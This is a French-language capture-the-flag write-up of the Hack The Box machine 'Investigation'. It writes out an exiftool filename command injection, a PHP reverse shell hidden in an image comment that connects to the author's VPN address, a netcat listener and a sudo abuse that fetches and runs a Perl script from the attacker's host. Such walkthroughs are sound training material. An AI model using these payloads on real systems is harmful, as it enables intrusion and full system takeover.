







## Résumé 
Cette machine Linux expose un service d'analyse de photo utilisant une version d'exiftools vulnérable à une éxécution de code arbitraire à distance (RCE).
Après l'obtention d'un shell sur la machine, une analyse d'un log de l'observateur d'évènement Windows révèle le mot de passe (suite à une erreur de saisie) d'un utilisateur de la machine nous permettant d'élever nos privilèges à ceux de l'utilisateur local.
L'obtention des privilèges root est ensuite réalisé en exploitant un binaire autorisés à s'exécuter en tant que super utilisateur à l'aide de la commande sudo.

## Collecte d'information générale
Enumération
22/tcp   open  ssh
80/tcp   open  http

### Port 80
#### Information générales
Nous découvrons :
- un serveur apache en version **2.4.41 (Ubuntu)**
- un nom de domaine : **eforenzics.htb**
```shell
└─$ curl -s $TARGET_IP -v 1>/dev/null
*   Trying 10.10.11.197:80...
* Connected to 10.10.11.197 (10.10.11.197) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.11.197
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 301 Moved Permanently
< Date: Sat, 25 Feb 2023 14:06:22 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://eforenzics.htb/

```

Le nom de domaine rajouté dans le fichier `/etc/hosts`, nous découvrons un site web avec une seule fonctionnalité : 
- Une page permettant d'uploader un fichier de type image

#### Mode de fonctionnement du service d'upload de fichiers
La page http://eforenzics.htb/service.html propose un formulaire d'envoie de fichiers.


Après avoir envoyé un fichier image, un lien temporaire nous est proposé :


La page générée correspond à la sortie standard de l'outil `exiftool`


Les données générées nous permettent de découvrir la version de l'outil : **12.37**

On découvre [ici](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) que les versions inférieures à la 12.38 sont vulnérable à une exécution de code.

## Exploitation
Pour l'exploiter, la documentation nous explique qu'il suffit de fournir un nom de fichier se terminant par le symbole "pipe" ("|"). Si un fichier nommé ainsi est passé en paramètre d'exif tool, l'outil tente d'exécuter la commande précédent le pipe.

### Vérification
On commence par vérifier qu'il nous possible d'exploiter cette vulnérabilité :
- on lance un tcpdump avec un filtre n'affichant que le traffic icmp dans une fenêtre avec la commande `sudo tcpdump -i tun0 icmp`
- on tente l'exécution au travers de **BURP** de la commande ping vers notre ip en fournissant le nom de fichier `ping <IP_DU_VPN> |`


On constate bien la réception de nos paquets ICMP : la RCE fonctionne donc correctement !


### Obtention d'un reverse shell
Les reverse shell classiques ne fonctionnent pas correctement : cela est dû au fait que la charge utile (payload) que l'on souhaite exécuter doit représenter un nom de fichier valide.
Il n'est donc par exemple, pas possible :
- d'utiliser le symbole `/`
- chainer des commandes à l'aide du `|` car le code vulnérable dans exiftool extrait seulement la commande présente au niveau du pire le plus à droite (le début de la commande est donc ignoré)
- d'envoyer une payload de plus de 255 caractères
- d'envoyer une payload contenant un guillemet (le parser du serveur HTTP traitant la requête POST utilise ce symbole pour identifier la valeur du paramètre `filename="<notre payload ici>"`)

#### Découverte de l'environnement serveur
On constate la présence de python 3 à l'aide de la commande `python3 -m http.server 65128`  qui nous permet de découvrir que chaque nouvelle commande est créée dans un dossier différent.

La commande `python3 -m http.server 65128 -d ..` nous permet de voir dans notre navigateur le dossier parent. 
La commande `php -S 0.0.0.0:65128 -t .. ` nous permet un serveur php avec pour dossier racine le dossier parent (le même que celui exposé maintenant par notre serveur python)

#### Exécution de code php
##### Envoie d'un reverse shell sur le serveur
On upload maintenant une image contenant du code php dans la balise de commentaire.
Cette image étant valide, elle est téléchargée et stockée dans un dossier à usage unique du serveur.

Nous générons l'image contenant un reverse shell php à l'aide de la commande suivante :
```shell
# on crée une image blanche
convert -size 32x32 xc:white img.php # on doit mettre l'extension php pour que le serveur php ne considère pas ce fichier comme une image

# on y ajoute notre payload
exiftool -Comment='<?php  $sock=fsockopen("10.10.14.42",1337);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);   ?>' img.php

# On vérifie la présence du code PHP
exiftool img.php | grep -i comment
```

On récupère le nom du dossier temporaire qui contient notre image à l'aide du serveur python qui nous offre la possibilité de parcourir chaque dossier temporaire généré.


##### Exécution du reverse shell
On lance un listener netcat : `nc -nlvp 1337`
On accède ensuite à notre image depuis le serveur PHP :


Le reverse shell fonctionne :
```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Elévation de privilèges
### Collecte d'informations

#### Compte utilisateur local
Le fichier /etc/passwd contient le nom de l'utilisateur `smorton`
``` shell
# passwd
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

#### Dossier intéressant
`crontab -l` nous révèle l'existence d'un dossier `/usr/local/investigation/analysed_log`
```shell
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```

Ce  dossier `/usr/local/investigation/` contient un email contenu dans le fichier `Windows Event Logs for Analysis.msg`

On récupère le contenu de ce mail à l'aide de l'utilitaire "extract-msg"
```
pip install extract-msg 
extract-msg  Windows%20Event%20Logs%20for%20Analysis.msg
cd 2022-01-16_0030\ Windows\ Event\ Logs\ for\ Analysis    
```

Le corps du message nous suggère d'aller vérifier dans le fichier d''évènement si il n'y a pas des informations qui ont fuité.
```shell
└─$ cat message.txt                                        
From: Thomas Jones <thomas.jones@eforenzics.htb>
Sent: Sun, 16 Jan 2022 00:30:29 +0000
To: Steve Morton <steve.morton@eforenzics.htb>
Subject: Windows Event Logs for Analysis
-----------------

Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures. 

Regards.
Tom

```

En cherchant des évènements Windows 4625 (Authentication failed) on tombe sur ce qui ressemble à un mot de passe saisit dans le champs utilisateur.
L'audit de succès présent juste après cette évènement est une connexion de l'utilisateur `smorton`
Il semble donc que cet utilisateur ait saisit son mot de passe dans la case "mot de passe" (ce qui a généré un audit d'echec) puis s'est authentifié correctement juste après.


### Exploitation
On essaie et réussi à s'authentifier localement en tant qu'utilisateur `smorton` à l'aide du mot de passe `Def@ultf0r3nz!csPa$$` via la commande `su - smorton`

On récupère ensuite le flag utilisateur

## Obtention des privilèges root
L'utilisateur `smorton` a le droit d'exécuter la commande `sudo` pour exécuter un fichier `/usr/bin/binary`
```shell

smorton@investigation:/tmp/reb$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

L'exploitation de ce fichier nous permettrait d'obtenir les privilèges root.

### Analyse du fonctionnement du fichier
On récupère le fichier sur notre machine et on le décompile avec ghydra

Son comportement est relativement simple :
- il recoit 2 paramètres : une URL et un nom de fichier
- le nom de fichier doit être "lDnxUysaQn"
- il enregistre le contenu de l'URL dans le nom de fichier 
- enfin il exécute ce fichier avec perl

Voici le code décompilé et annoté que nous obtenons :
```c
[...]
  isGoodName = strcmp(*(char **)(argv + 0x10),"lDnxUysaQn");
  if (isGoodName != 0) {   // "si le paramètre le vaut pas 'lDnxUysaQn' on quitte"
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  puts("Running... ");
  fStream = fopen(*(char **)(argv + 0x10),"wb"); // on ouvre le fichier lDnxUysaQn en écriture
  curlHandle = curl_easy_init();
  curl_easy_setopt(curlHandle,0x2712,*(undefined8 *)(argv + 8)); // on paramètre l'URL de connexion
  curl_easy_setopt(curlHandle,0x2711,fStream); // on indique qu'on va écrire dans ce fichier 
  curl_easy_setopt(curlHandle,0x2d,1);          // ?
  isGoodName = curl_easy_perform(curlHandle);  // téléchargement
  if (isGoodName == 0) {
    isGoodName = snprintf((char *)0x0, 0, "%s", *(undefined8 *)(argv + 0x10));
    datadatadata = (char *)malloc((long)isGoodName + 1);
	snprintf(datadatadata, (long)isGoodName + 1, "%s", *(undefined8 *)(argv + 0x10));
    isGoodName = snprintf((char *)0x0, 0, "perl ./%s", datadatadata); // on détermine la longueur de la chaine perl + nom du fichier
    __s = (char *)malloc((long)isGoodName + 1); // on alloue un espace mémoire de cette taille
    snprintf(__s,(long)isGoodName + 1,"perl ./%s",datadatadata); // on prépare la commande 
    fclose(fStream);
    curl_easy_cleanup(curlHandle);
    setuid(0);
    system(__s); // execution de la commande
    system("rm -f ./lDnxUysaQn");
    return 0;
[...]
```

### Exploitation
On va donc :
- créer un fichier perl affichant le flag de l'utilisateur root.
- héberger ce fichier sur un serveur web local
- exécuter `sudo binary <URL VERS NOTRE SCRIPT PERL> lDnxUysaQn`

On crée un fichier perl qui affiche le flag :
```
use strict;
use warnings;

my $output = `cat /root/root.txt`;
print $output;
```

On affiche enfin le flag avec la commande
```
smorton@investigation:/tmp/reb$ sudo binary http://10.10.14.42:3333/get_root_flag.txt lDnxUysaQn

Running... 
FLAG_HERE
```

## Le mot de la fin
Ce challenge a été très instructif : j'ai rencontré quelques difficultés qui m'ont permis de m'améliorer.
J'ai notamment pris note que les reverse shell php étaient parfois capricieux... Celui qui semble le mieux fonctionner depuis quelques challenges s'appuie sur l'utilisation de la méthode `shell_exec`. Je le tenterais donc en premier la prochaine fois.

Je ne maîtrisais pas non plus l'exécution des serveur web python et php depuis un dossier différent du dossier courant : c'est maintenant chose faite !

Enfin, je ne connaissais pas d'outils permettant la lecture d'un fichier .msg depuis linux. J'ai maintenant ajouté à ma liste d'outil l'utilitaire python`extract-msg`.

Ce challenge étant classé medium : je confirme qu'il n'est pas spécialement "difficile", la phase d'énumération est simplement un peu longue à cause du fait que, pour une fois, le fait d'avoir en sa possession une RCE, ne permet pas directement d'obtenir un shell.

Merci Hack The Box !
